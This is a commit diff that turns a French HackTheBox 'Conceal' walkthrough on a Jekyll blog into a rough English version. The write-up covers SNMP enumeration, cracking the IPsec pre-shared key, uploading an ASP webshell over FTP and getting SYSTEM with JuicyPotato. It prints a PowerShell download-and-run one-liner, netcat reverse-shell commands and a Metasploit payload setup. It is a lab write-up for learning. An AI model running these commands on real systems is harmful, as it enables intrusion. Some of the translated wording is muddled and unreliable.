

Before and after one commit to 0xex75-english/0xex75-english.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 900 px high, scrolled down 623 px. Shown: the whole window, without its empty margins (211-1068 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code.

Commit message:
Update 2019-05-18-hackthebox-conceal.md

```diff
--- a/_posts/2019-05-18-hackthebox-conceal.md
+++ b/_posts/2019-05-18-hackthebox-conceal.md
@@ -1,7 +1,7 @@
 ---
 title: "HackTheBox - Conceal"
 description: test.png
-tags: ["Dans cet article je vous présente comment être root dans la boîte Conceal, c'était une boîte très amusante mais en même temps assez difficile car il y avait pas mal de configuration à faire au niveau du protocole IPSEC pour avoir un shell dans le système. Pour le root il y avait un système qui était activé et on pouvais être root grâce au programme Juicy Potato."]
+tags: ["In this article I present to you how to be root in the Conceal box, it was a very funny box but at the same time quite difficult because there was a lot of configuration to do at the level of the IPSEC protocol to have a shell in the system. For root there was a system which was activated and we could be root thanks to the Juicy Potato program."]
 ---
 
 ![Flower](../test.png)
@@ -13,23 +13,23 @@ Informations
 
 Résumé : <br />
 
-Le système Conceal, disponible sur la platform [HackTheBox](https://www.hackthebox.eu/), fut très intéressant et amusante. Le niveau de difficulté était plutôt élevée, étant donné qu’une bonne énumération était amplement suffisante. De plus, j’ai appris beaucoup de chose tout au long de l’exploitation des failles de ce système. <br />
+The Conceal system, available on the platform [HackTheBox](https://www.hackthebox.eu/), was very interesting and fun. The level of difficulty was rather high, given that a good enumeration was more than enough. In addition, I have learned a lot of choice throughout the exploitation of the flaws in this system.
 
-- Il y a le port Simple Network Manager Protocol (SNMP) qui est ouvert, et il a été mis en public concrètement, et nous trouvons une adresse PSK. <br />
-- Ensuite, nous allons cracker la preshared key (PSK) utiliser durant la phase d’authentification à un Virtual Private Network (VPN) utilisant IPsec. <br />
-- Une bonne configuration pour avoir accès, avec le protocole IPSEC avec le programme StrongSwan. <br />
-- Nous devons créer un point de routage avec IPSEC pour rediriger les ports et d'accéder à la machine. <br />
-- On peut upload des fichiers dans le FTP, et ensuite d'exécuter le script dans la page web et faire son reverse shell. <br />
-- Pour l'accès admin, SeImpersonatePrivilege est activé donc on peut utiliser le programme JuicyPotato.
+- There is a Simple Network Manager Protocol (SNMP) port that is open, and it has been publicly released, and we find a PSK address. <br />
+- Next, we will crack the preshared key (PSK) used during the authentication phase to a Virtual Private Network (VPN) using IPsec. <br />
+- A good configuration to have access, with the IPSEC protocol with the StrongSwan program. <br />
+- We need to create a routing point with IPSEC to redirect the ports and access the machine. <br />
+- You can upload files to FTP, and then run the script on the web page and make a reverse shell. <br />
+- For administrator access, SeImpersonatePrivilege is enabled so on can use the JuicyPotato program.
 
 Source : <br />
 
-- https://www.zdnet.fr/actualites/la-faille-windows-alpc-deja-exploitee-39873227.htm <br />
+- https://github.com/riparino/Task_Scheduler_ALPC <br />
 - https://wiki.strongswan.org/projects/strongswan/wiki/UserDocumentation
 
 Nmap Scan
 ----
-Donc il y a aucun port ouvert visiblement donc va voir pour l'UDP et de chercher des ports qui peuvent être très intéressant pour l'énumération.
+So there is no visibly open port so look for the UDP and look for ports that can be very interesting for enumeration.
 
     root@Seyptoo:~/htb/box/Conceal# nmap -sC -sV -oA nmap/check 10.10.10.116
 
@@ -41,7 +41,7 @@ Donc il y a aucun port ouvert visiblement donc va voir pour l'UDP et de chercher
     Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
     Nmap done: 1 IP address (1 host up) scanned in 39.80 seconds
 
-Pour scanner les port utilisant le protocole de communication User Datagram Protocol (UDP), nous allons utiliser le programme masscan. Car au scan Transmission Control Protocol (TCP) il y avait aucun port d'ouvert.
+To scan the ports using the User Datagram Protocol (UDP), we will use the masscan program. Transmission control protocol (TCP) Because on scan there was no open port.
 
     root@Seyptoo:~/htb/box/Conceal# masscan -p1-65535,U:1-65535 10.10.10.116 --rate=1000 -e tun0
 
@@ -51,7 +51,7 @@ Pour scanner les port utilisant le protocole de communication User Datagram Prot
     Scanning 1 hosts [131070 ports/host]
     Discovered open port 161/udp on 10.10.10.116
 
-D'après le scan que nous venons de faire, nous pouvons voir que le port 161 port utilisant le User Datagram Protocol (UDP) est ouvert. Ce port est le plus souvent utilisé par le service Simple Network Management Portocole (SNMP). Ce protocole est principalement utiliser par les administrateurs réseau afin d'obtenir des informations sur le systeme ou d'y effectuer des modifications.
+From the scan we just did, we can see that the port 161 port using the User Datagram Protocol (UDP) is open. This port is most often used by the Simple Network Management Portocole (SNMP) service. This protocol is mainly used by network administrators to obtain information about the system or to make modifications.
 
     root@Seyptoo:~/htb/box/Conceal# nmap -sU -sC -sV -p161 10.10.10.116
 
@@ -64,7 +64,7 @@ D'après le scan que nous venons de faire, nous pouvons voir que le port 161 por
 
 SNMP Enumeration
 ----
-Donc nous allons essayer d'exécuter le programme snmpwalk et d'énumérer le service en question.
+So we will try to run the snmpwalk program and list the service in question.
 
     root@Seyptoo:~/htb/box/Conceal# snmpwalk -c public -v 1 10.10.10.116
     [...SNIP...]
@@ -72,7 +72,7 @@ Donc nous allons essayer d'exécuter le programme snmpwalk et d'énumérer le se
     iso.3.6.1.2.1.1.5.0 = STRING: "Conceal"
     [...SNIP...]
 
-Comme vous pouvez le voir il y a une adresse PSK, cette adresse va nous permettre beaucoup de choses, tout d'abord essayons de cracker le hash, donc le hash est du NTLM. Donc j'ai créé un script en Python pour cracker le hash en question.
+As you can see there is a PSK address, this address will allow us a lot of things, first of all let's try to crack the hash, so the hash is from NTLM. So I created a Python script to crack the hash in question.
 
 {% highlight python %}
 #coding:utf-8
@@ -150,7 +150,7 @@ if __name__ == "__main__":
 
 {% endhighlight %}
 
-Donc le programme ressemble à ça concrètement vous avez juste à l'exécuter et le programme va cracker le hash, si vous souhaitez bruteforce le mot de passe ça va prendre un bon moment. Je vous conseille d'aller sur CrackStation.
+So the program looks like this concretely you just have to run and the program will crack the hash, if you want bruteforce the password it'll take a long time. I advise you to go to CrackStation.
 
 	root@Seyptoo:~/htb/box/Conceal# python NTLM.py /usr/share/wordlist/rockyou.txt 9C8B1A372B1878851BE2C097031B6E43
 	[-] ERROR NTLM/1000 : 9c8b1a372b1878851be2c097031b6e43:azerty
@@ -158,18 +158,19 @@ Donc le programme ressemble à ça concrètement vous avez juste à l'exécuter
 
 	[+] NTLM : 9c8b1a372b1878851be2c097031b6e43:Dudecake1!
 
-Après un bon moment de bruteforce, il a enfin trouvé le mot de passe, mais je ne recommande pas d'utiliser le programme ça va prendre énormément de temps. Allez plutôt sur CrackStation.
+After a long time of bruteforce, he finally found the password, but I don't recommend using the program it will take a lot of time. Go to CrackStation instead.
 
 [![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/20/5/1558118186-capture-du-2019-05-17-20-36-09.png)](https://image.noelshack.com/fichiers/2019/20/5/1558118186-capture-du-2019-05-17-20-36-09.png)
 
 IPSEC Configuration
 ----
-Donc nous arrivons dans la partie la plus intéressante de la machine car c'est un moment où j'ai pris énormément de temps mais également de souffrance, j'ai pris vraiment beaucoup de temps. <br />
+So we come to the most interesting part of the machine because it was a time when I took a lot of time but also suffering, I really took a lot of time. <br />
 
-IPsec (Internet Protocol Security), défini par l'IETF comme un cadre de standards ouverts pour assurer des communications privées et protégées sur des réseaux IP, par l'utilisation des services de sécurité cryptographiques, est un ensemble de protocoles utilisant des algorithmes permettant le transport de données sécurisées sur un réseau IP. <br />
+IPsec (Internet Protocol Security), defined by the IETF as an open standards framework for ensuring private and protected communications over IP networks, through the use of cryptographic security services, is a set of protocols using algorithms allowing the transport of secure data over an IP network. <br />
 
-Donc nous allons modifier le fichier **/etc/ipsec.secrets** et enfin le fichier **/etc/ipsec.conf**, donc regardez les configurations ci-dessous. <br /><br />
-Fichier : ipsec.conf
+So we are going to modify the file **/etc/ipsec.secrets** and finally the file **/etc/ipsec.conf**, so look at the configurations below. <br /><br />
+
+File : ipsec.conf
 
 	config setup
 	    charondebug="all"
@@ -193,14 +194,15 @@ Fichier : ipsec.conf
 	    fragmentation=yes
 	    keyingtries=1
 
-N'oubliez surtout pas de modifier l'adresse IP de l'interface tun0 dans le leftsubnet et dans le left, pour que il y a aucun problème au niveau de l'exécution. <br /><br />
-Fichier : ipsec.secrets
+Do not forget to change the IP address of the tun0 interface in the leftsubnet and in the left, so that there is no problem at the execution level. <br /><br />
+
+File : ipsec.secrets
 
 	# ipsec.secrets - strongSwan IPsec secrets file
 
 	%any %any : PSK "Dudecake1!"
 
-Je ne vais pas vous expliquer en détail le fonctionnement des lignes, car sinon ça va être très très long. Il y a déjà la documentation qui nous montre le fonctionnement. Donc pour lancer la configuration et de tester si la connexion marche avec succès lancée la commande juste ci-dessous.
+I will not explain to you in detail the operation of the lines, because otherwise it will be very very long. There is already documentation that shows us how it works. So to launch the configuration and to test if the connection works successfully launched the command just below.
 
 	root@Seyptoo:~/htb/box/Conceal# ipsec up conceal
 	generating QUICK_MODE request 3539874152 [ HASH SA No ID ID ]
@@ -212,16 +214,16 @@ Je ne vais pas vous expliquer en détail le fonctionnement des lignes, car sinon
 	CHILD_SA conceal{2} established with SPIs c8dc7342_i dde379e8_o and TS 10.10.15.229/32 === 10.10.10.116/32[tcp]
 	connection 'conceal' established successfully
 
-La connexion a été established avec succès donc c'est parfait donc maintenant nous allons créés un point de routage, nous allons rediriger les ports vers notre réseau pour accéder aux ports filtrés de la machine, je vous ai faits un petit schéma ci-dessous pour que vous compreniez le système.
+The connection was established successfully so it's perfect so now we will create a routing point, we will redirect the ports to our network to access the filtered ports of the machine, I have made a small diagram below for that you understand the system.
 
 [![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/20/6/1558172167-capture-du-2019-05-17-12-18-09.png)](https://image.noelshack.com/fichiers/2019/20/6/1558172167-capture-du-2019-05-17-12-18-09.png)
 
-Donc pour rediriger les ports filtrés vers notre machine vous devez simplement taper la commande ci-dessous et vous allez voir que la redirection se fait très simplement.
+So to redirect the filtered ports to our machine you must simply type the command below and you will see that the redirection is done very simply.
 
 	root@Seyptoo:~/htb/box/Conceal# ipsec route conceal
 	'conceal' routed
 
-Donc si on refait un scan de port TCP nous allons voir que il y'a des service ouvert dans la machine.
+So if we do a TCP port scan again we will see that there are services open in the machine.
 
 	root@Seyptoo:~/htb/box/Conceal# nmap -sT -p1-65535 10.10.10.116 --min-rate 1000
 	Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-18 11:44 CEST
@@ -267,16 +269,17 @@ Donc si on refait un scan de port TCP nous allons voir que il y'a des service ou
 	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 	Nmap done: 1 IP address (1 host up) scanned in 23.56 seconds
 
-Nous avons des informations très intéressantes, on peut voir qu'on peut se connecter en tant que Anonymous dans le FTP et on peut uploader des fichiers sur le système via le protocole FTP.
+We have very interesting information, we can see that we can connect as Anonymous in FTP and we can upload files to the system via the FTP protocol.
 
 HTTP
 ----
-Donc si nous allons dans le serveur HTTP, il y'a pas grand chose donc pour ça je vais lancer une attaque gobuster pour voir si il y'a des dossiers intéréssant ou des fichiers.
+So if we go to the HTTP server, there is not much, so for that I will launch a gobuster attack to see if there are any interesting folders or files.
 
 	root@Seyptoo:~/htb/box/Conceal# gobuster -q -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.116
 	/upload (Status: 301)
 
-Donc le site web accepte seulement de l'asp ou bien du aspx, mais il accepte en aucun cas du PHP. Donc pour ça je vais upload un shell ASP WebShell pour IIS 8 dans le serveur pour envoyer des commandes. Un bon lien pour télécharger le shell. https://packetstormsecurity.com/files/137024/ASP-Webshell-For-IIS-8.html <br />
+So the website only accepts asp or aspx, but in no case does it accept PHP. So for that I will upload an ASP WebShell shell for IIS 8 to the server to send commands. A good link to download the shell.
+https://packetstormsecurity.com/files/137024/ASP-Webshell-For-IIS-8.html <br/>
 
 	root@Seyptoo:~/htb/box/Conceal# ftp 10.10.10.116
 	Connected to 10.10.10.116.
@@ -294,14 +297,14 @@ Donc le site web accepte seulement de l'asp ou bien du aspx, mais il accepte en
 	1423 bytes sent in 0.00 secs (17.8563 MB/s)
 	ftp>
 
-Donc après avoir upload le shell nous pouvons exécuter des commandes depuis curl.
+So after uploading the shell we can execute commands from curl.
 
 	root@Seyptoo:~/htb/box/Conceal# curl http://10.10.10.116/upload/index.asp -d "cmd=whoami"
 	[...SNIP...]
 	conceal\destitute
 	[...SNIP..]
 
-Parfait nous sommes prêt pour le reverse shell nous allons utiliser metasploit le module web_delivery pour effectué notre reverse shell avec sans aucun problème.
+Perfect we are ready for the reverse shell we will use metasploit the web_delivery module to perform our reverse shell with no problem.
 
 	msf > use exploit/multi/script/web_delivery
 	msf exploit(multi/script/web_delivery) > set LHOST 10.10.15.229
@@ -309,11 +312,11 @@ Parfait nous sommes prêt pour le reverse shell nous allons utiliser metasploit
 	msf exploit(multi/script/web_delivery) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
 	msf exploit(multi/script/web_delivery) > set TARGET 4
 
-Donc le code fournis en powershell il faut le mettre depuis le site web et non depuis curl car il y a des problèmes d'encodage etc.. Donc je vous conseille vivement d'aller sur le chemin directement. Le code fourni par Metasploit.
+So the code provided in powershell must be put from the website and not from curl because there are encoding problems etc. So I strongly advise you to go on the path directly. The code provided by Metasploit.
 
 	powershell.exe -nop -w hidden -c $z="echo ($env:temp+'\DF95KsPU.exe')"; (new-object System.Net.WebClient).DownloadFile('http://10.10.15.229:8080/mSErF4WvPeAoECb', $z); invoke-item $z
 
-Après avoir exécuté le code powershell nous avons un shell, mais le problème nous sommes pas administrator.
+After running the powershell code we have a shell, but the problem is we are not administrator.
 
 	msf exploit(multi/script/web_delivery) > exploit
 	[*] 10.10.10.116     web_delivery - Delivering Payload
@@ -331,7 +334,7 @@ Après avoir exécuté le code powershell nous avons un shell, mais le problème
 
 PrivEsc
 ----
-Le privesc n'est pas très compliqué sur la machine nous allons taper la commande ci-dessous. En exécutant whoami /priv, nous voyons que les droits de l'utilisateur nous permettront d'utiliser l'exploit juicy-potato pour s'élever à NT AUTORITY/SYSTEM.
+The privesc is not very complicated on the machine we will type the command below. By running whoami /priv, we see that user rights will allow us to use the juicy-potato exploit to elevate to NT AUTORITY/SYSTEM.
 
 
 	C:\Users\Windows\System32>whoami /priv
@@ -351,7 +354,7 @@ Le privesc n'est pas très compliqué sur la machine nous allons taper la comman
 	SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
 	SeTimeZonePrivilege           Change the time zone                      Disabled
 
-Nous devons choisir le CLSID approprié pour notre système d'exploitation. Nous allons d'abord vérifier quelle version de Windows est en cours d'exécution actuellement :
+We must choose the appropriate CLSID for our operating system. We will first check which version of Windows is currently running :
 
 	C:\inetpub\wwwroot\upload>systeminfo
 
@@ -359,15 +362,15 @@ Nous devons choisir le CLSID approprié pour notre système d'exploitation. Nous
 	OS Name:                   Microsoft Windows 10 Enterprise
 	OS Version:                10.0.15063 N/A Build 15063
 
-Ensuite, nous vérifions sur le site https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md la liste des CLSID pour le système d'exploitation. <br />
+Then, we check on the site https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md the list of CLSIDs for the operating system. <br />
 
-Nous allons utiliser {5BC7A3A1-E905-414B-9790-E511346F5CA6}, sans aucune raison particulière, puis exécuter JuicyPotato et exécuter un autre netcat pour générer un nouveau shell inversé pour nous.
+We will use {5BC7A3A1-E905-414B-9790-E511346F5CA6}, for no particular reason, then run JuicyPotato and run another netcat to generate a new reverse shell for us.
 
 	C:\inetpub\wwwroot\upload>juicypotato.exe -l 1234 -p nc.exe -a "-e cmd.exe 10.10.14.39 9001" -t * -c {5BC7A3A1-E905-414B-9790-E511346F5CA6}
 	[...SNIP...]
 	[+] CreateProcessWithTokenW OK
 
-Et ensuite on a juste à faire le reverse shell depuis notre machine physique pour être administrateur.
+And then we just have to do the reverse shell from our physical machine to be administrator.
 
 	root@Seyptoo:~/htb/box/Conceal# nc -lvnp 9001
 	listening on [any] 9001 ...
@@ -380,4 +383,4 @@ Et ensuite on a juste à faire le reverse shell depuis notre machine physique po
 
 CONCLUSION
 ----
-Voilà, nous arrivons enfin au bout de cet article qui, je l’espère, vous aura plus. Une boîte vraiment intéréssante et concrètement assez originale, il y'avais pas mal de manipulation et de configurationà faire au niveau du protocole `IPSEC` mais ça reste une très bonne boîte.
+Here we are, we finally come to the end of this article which, I hope, will have you more. A really interesting box and concretely quite original, there was a lot of manipulation and configuration to do at the level of the `IPSEC` protocol but it's still a very good box.
```
